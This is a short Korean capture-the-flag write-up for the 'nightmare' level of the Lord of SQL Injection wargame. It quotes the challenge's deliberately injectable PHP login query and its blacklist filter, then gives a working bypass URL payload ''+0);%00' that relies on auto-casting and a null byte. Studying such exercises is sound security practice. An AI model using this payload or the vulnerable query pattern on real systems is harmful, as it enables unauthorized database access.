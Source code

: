 # Lord of SQL Injection No.18 - nightmare
## 문제 출제 의도 
주석 필터링을 우회하고 auto casting을 이용하여 원하는 값을 얻어올 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```
~~~
if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~")
~~~
주석을 필터링하고 ()를 필터링한다.
## Solution
1. auto casting 이용
~~~
http://los.eagle-jump.org/nightmare_ce407ee88ba848c2bec8e42aaeaa6ad4.php?pw='%2b0);%00
~~~
+ 이는 문자로 시작하는 모든 pw를 가져오게 하므로 문제가 풀린다.